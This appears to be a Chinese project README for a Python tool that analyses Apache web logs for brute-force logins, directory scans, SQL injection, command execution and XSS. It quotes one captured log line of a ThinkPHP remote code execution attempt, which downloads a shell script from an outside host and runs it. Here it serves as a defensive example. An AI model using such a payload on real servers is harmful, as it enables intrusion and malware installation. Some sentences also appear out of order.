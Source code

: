 ### 基于python的web日志分析工具
#### 简介
&emsp;&emsp;当前web服务面临的安全威胁越来越多，基本上任何一台连接互联网的服务器都被不同程度的扫描过，甚至有一些被攻击过。而对web日志进行分析无疑是发现威胁，以及攻击溯源的重要手段。开发该工具旨在减轻安全人员的压力，更加快速准确的发现安全威胁。
#### 功能实现
&emsp;&emsp;考虑到当前能力和资源均有限，该工具主要是发现一些现有的，比较常见的威胁，并且初期的版本将只针对常见的攻击和扫描进行识别，并对一些简单的攻击进行溯源。分析的日志目前也比较单一，主要是apache的标准web日志。预计在项目进行过程中将会根据实际情况进行必要的拓展。结合最近手动分析的一些web日志，我们发现了一些威胁出现的频率非常高，这里面出现最频繁的就是密码爆破和后台目录扫描，因此对这两种威胁的发现也将是该工具实现功能的重点。除此之外，也有少数但后果相当严重的威胁来源于对远程代码执行漏洞的攻击和一些获取webhell的攻击。其他攻击目前基本没有发现，大概是因为笔者的服务器价值不高，且无论服务器价值，高级的攻击都不常见。

    一段命令执行的请求：185.244.25.128 - - [31/Jan/2019:05:47:12 +0800] "GET /index.php?s=/index/%5Cthink%5Capp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]=wget%20http://infinityondemand.club/bins/infinity.sh;%20chmod%20+x%20infinity.sh;%20sh%20infinity.sh%20 HTTP/1.1" 200 54340 "-" "Go-http-client/1.1"
    该请求出正常要求外还会下载一个脚本，修改权限并执行该恶意脚本。
综合各种情况，该工具将实现对以下威胁的识别：（不完全）
面设计，使用的技术基于pyqt。软件各项功能均基于python实现。具体技术细节日后将在后续的日志中逐一进行完善。
1. 目录爆破
2. 密码爆破
3. SQL注入
4. 命令执行
5. xss利用
6. 其他待定
#### 使用的技术
&emsp;&emsp;为使软件的使用更加便捷，该工具基于图形界面。